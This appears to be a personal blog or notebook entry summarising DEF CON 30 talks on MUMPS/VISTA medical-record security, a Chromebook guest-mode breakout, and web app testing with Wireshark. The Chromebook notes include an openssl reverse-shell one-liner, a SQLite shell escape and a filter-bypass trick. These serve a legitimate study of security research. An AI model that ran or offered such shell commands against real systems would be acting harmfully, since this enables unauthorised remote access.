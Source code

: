 # DEF CON 30

author:: Nathan Acks  
date:: 2022-08-13

DEF CON talks in the morning, and another workshop this afternoon.

REFERENCES:

* [DEF CON 30](https://defcon.org/html/defcon-30/dc-30-index.html)

## How to Get MUMPS Thirty Years Later

* SIDE NOTE: Zach uses a text-based slide generation tool called Moebius.
* MUMPS is a versatile language (and development environment) originally developed for the VA. I predates \*NIX and is incredibly versatile — it’s also used by other hospitals, police departments, banks, and even the ESA.
* MUMPS has some interesting features: All keywords can be shortened to a single character. White space matters (except for newlines). Math is evaluated left-to-right (there’s no sense of order of operations `O_o`). Dates are comma-delineated strings that start in 1838 (and support up to the year 9999).
* MUMPS can be treated as both a scripted and compiled language.
* More than 50% of all electronic medical records pass through some sort of MUMPS application.
* VISTA is a platform for handling electronic medical records that is written in MUMPS specifically for use by the Veterans’ Administration.
* In hospitals, clients talk to VISTA using a network RPC. The most common client is CPRS (it’s written in a slightly more modern language, DELPHI `O_o`).
* CPRS/VISTA are *extremely* chatty on the network.
* VISTA uses a roll-your-own encryption scheme from the 1990s. Encryption can be trivially broken. Packets can be replayed. And there are hard-coded creds (though Zach doesn’t think that these are exploitable). So, be sure to layer TLS onto any MUMPS implementations!
* Zach’s had trouble getting the VA to talk to them, so disclosure’s still ongoing here.
* VISTA is *really* well-loved by the doctors who use it.

### References

* [How to Get MUMPS Thirty Years later (or, Hacking the Government via FOIA’d Code](https://forum.defcon.org/node/241815)
* [Moebius ANSI Art Editor](https://blocktronics.github.io/moebius/)

## Chromebook Breakout

* This is the Lost Rabbit Labs people. I saw them at a DC 303 meet-up.
* This vulnerability was actually patched two years ago by Google…
* This is a breakout from the Chrome OS guest user via the the Crosh shell using command injection in the `set_*` commands.
* The Pico Ducky is a Rubber Ducky work-alike that runs on a Raspberry Pi Pico. It’s much faster than Hak5’s tool.
* Interesting redirect trick — use `1>&2` to redirect STDOUT to STDERR (the reverse of what is normally done) to bypass some output filtering.
* You can pipe `sh` through `openssl` for a reverse shell! Something like: `mkfifo /tmp/irl; /bin/sh -i < /tmp/irl 2>&1 | openssl s_client -quiet -connect 127.0.0.1:1337 > tmp/irl; rm /tmp/irl`
* In older versions of Chrome OS, the Crosh shell could actually be launched in Dev Mode (without switching the entire box to Dev Mode) using `crosh --dev` (via `set_apn` command injection).
* SQLite shell escape: `.shell bash`
* Oof… There were (are?) hard-coded SSH public keys on Chrome OS; the corresponding private key was (is?) available in the Chromium code repo.
* Chrome OS has a restricted `finger` command called `pinky` that’s used internally.
* If you can get to `dbus` on a Chromebook, you can access *some* (but not all!) Dev Mode tools (like `ping`).

(I wasn’t able to catch the end of this presentation, however, as I needed to head out to my last workshop…)

### References

* [Chromebook Breakout: Escaping Jail, With Your Friends, Using a Pico Ducky](https://forum.defcon.org/node/241992)
* [Pico Ducky](https://github.com/dbisu/pico-ducky)

## Securing Web Apps

* TIL: There is such a thing as NoSQLi, and it’s *way* easier than SQLi — just drop objects containing search operators into the NoSQL queries instead of actual data!
* You can search within packets in Wireshark using the filter `frame contains "$TEXT_TO_SEARCH"`.
* If you can find an encryption key in a packet dump, you can try applying them to encrypted packets in Wireshark using “Preferences > RSA Keys”.
* Wireshark can easily extract files from HTTP conversations. To extract them from raw TCP streams, (1) locate the beginning of the stream, (2) right-click on the packet and select “Follow > TCP Stream, (3) change “Show data as” to “Raw”, and (4) save it off using “Save As”.

### References

* [Securing Web Apps](https://forum.defcon.org/node/241772)
* [How to pull off a successful NoSQL Injection attack](https://infosecwriteups.com/nosql-injection-8732c2140576)
